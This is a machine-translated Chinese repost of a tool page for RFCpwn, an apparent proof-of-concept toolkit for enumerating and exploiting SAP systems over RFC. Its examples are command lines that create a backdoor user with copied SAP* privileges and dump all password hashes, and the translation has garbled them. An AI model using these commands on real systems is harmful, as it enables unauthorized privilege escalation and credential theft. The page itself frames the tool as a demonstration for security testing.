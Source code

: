 # RFCpwn:一个使用 RFC 调用 SAP 的枚举和开发工具包

> 原文：<https://kalilinuxtutorials.com/rfcpwn/>

[![RFCpwn : An Enumeration & Exploitation Toolkit Using RFC Calls To SAP](img/2f3fe2bc0e288f19d24b2e51aea20be2.png "RFCpwn : An Enumeration & Exploitation Toolkit Using RFC Calls To SAP")](https://1.bp.blogspot.com/-DHaQ_HIhpOA/XhTvr7F6l6I/AAAAAAAAETQ/QVqYD0GKm-ESeGoU0Xv1L0cpVGZHI8UzwCLcBGAsYHQ/s1600/Rf-1%25281%2529.png)

**RFCpwn** 是一个使用 SAP RFC 调用的 SAP 枚举和利用工具包。这是一个展示受损服务帐户影响的工具包。此 PoC 不适用于生产环境，不保证稳定性或支持。

它依赖于 pyrfc 和 SAP 在:[https://github.com/SAP/PyRFC#installation](https://github.com/SAP/PyRFC#installation)提供的库

![](img/0f4066c38c97e42c2f105c4c7c0f918f.png)

**也可阅读-[AWS 报告:分析亚马逊资源的工具](https://kalilinuxtutorials.com/aws-report/)**

**例题**

*   **Ping–确认连接**

**。/rfcpwn . py-IP 192 . 168 . 200 . 253-s00-c000-u rfcuser-p rfcpass-ping**

*   **将一个用户的权限复制到一个新的对话用户中。如果未指定-copy，则使用 SAP*。**

**。/RFC pwn . py-IP 192 . 168 . 200 . 253-s 00-c 000-u RFC user-p RFC pass-user copy-user attack-pw change me 1**

*   **转储所有用户的哈希。实验性 bcode &密码哈希的选项-exp。**

**。/RFC pwn . py-IP 192 . 168 . 200 . 253-s 00-c 000-u RFC user-p RFC pass-dump**

**演示**

![](img/d605dcb54a3447c61cbb05dbff64a84f.png)[**Download**](https://github.com/icryo/RFCpwn)